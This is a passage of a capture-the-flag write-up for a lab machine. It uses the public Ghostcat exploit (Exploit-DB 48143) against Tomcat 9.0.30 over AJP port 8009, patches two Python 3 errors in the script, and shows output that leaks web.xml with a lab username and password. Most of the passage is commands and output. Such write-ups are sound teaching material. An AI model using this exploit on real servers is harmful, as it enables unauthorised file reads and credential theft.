 ![2](https://github.com/Knign/Write-ups/assets/110326359/a6d0e96d-2def-4876-bc23-f30475655f92)

The version of Tomcat is`9.0.30`. This version is vulnerable to Ghostcat.

We can find the exploit on the Exploit Database website.

![3](https://github.com/Knign/Write-ups/assets/110326359/d95d8701-9ce6-4f82-8d31-3e931d959b60)

After downloading, we can run the exploit as follows:
```
$ python3 48143.py -p 8009 10.10.106.51
Traceback (most recent call last):
  File "/home/kunal/tryhackme/tomghost/48143.py", line 295, in <module>
    t = Tomcat(args.target, args.port)
  File "/home/kunal/tryhackme/tomghost/48143.py", line 262, in __init__
    self.stream = self.socket.makefile("rb", bufsize=0)
TypeError: socket.makefile() got an unexpected keyword argument 'bufsize'
```
We need to change `busize` to `buffering` at line 262.

![4](https://github.com/Knign/Write-ups/assets/110326359/a8db6699-4959-4c25-bb1a-5be9d89b3346)

Let's run it again.
```
$ python3 48143.py -p 8009 10.10.106.51
Getting resource at ajp13://10.10.106.51:8009/asdf
----------------------------
Traceback (most recent call last):
  File "/home/kunal/tryhackme/tomghost/48143.py", line 302, in <module>
    print("".join([d.data for d in data]))
TypeError: sequence item 0: expected str instance, bytes found
```
We can fix this error by adding a `b` at line 302 before the `""`. This converts the string object into a byte object.

![5](https://github.com/Knign/Write-ups/assets/110326359/696f13db-e50d-46eb-ab2b-bcde187fc69f)

Our exploit should run fine now.
```
$ python3 48143.py -p 8009 10.10.106.51
Getting resource at ajp13://10.10.106.51:8009/asdf
----------------------------
b'<?xml version="1.0" encoding="UTF-8"?>\n<!--\n Licensed to the Apache Software Foundation (ASF) under one or more\n  contributor license agreements.  See the NOTICE file distributed with\n  this work for additional information regarding copyright ownership.\n  The ASF licenses this file to You under the Apache License, Version 2.0\n  (the "License"); you may not use this file except in compliance with\n  the License.  You may obtain a copy of the License at\n\n      http://www.apache.org/licenses/LICENSE-2.0\n\n  Unless required by applicable law or agreed to in writing, software\n  distributed under the License is distributed on an "AS IS" BASIS,\n  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.\n  See the License for the specific language governing permissions and\n  limitations under the License.\n-->\n<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"\n  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"\n  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee\n                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"\n  version="4.0"\n  metadata-complete="true">\n\n  <display-name>Welcome to Tomcat</display-name>\n  <description>\n     Welcome to GhostCat\n\tskyfuck:8730281lkjlkjdqlksalks\n  </description>\n\n</web-app>\n\x00'
```
So the username is `skyfuck` and the password is `8730281lkjlkjdqlksalks`.
